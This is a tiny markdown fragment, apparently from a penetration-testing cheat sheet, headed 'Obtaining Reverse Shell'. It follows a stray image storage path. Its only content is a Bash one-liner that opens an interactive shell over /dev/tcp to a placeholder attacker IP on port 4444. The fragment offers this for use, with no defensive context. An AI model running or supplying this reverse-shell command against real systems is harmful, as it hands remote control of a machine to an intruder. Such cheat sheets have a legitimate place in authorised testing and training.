 # Obtaining Reverse Shell

1. **Bash**
   
        bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
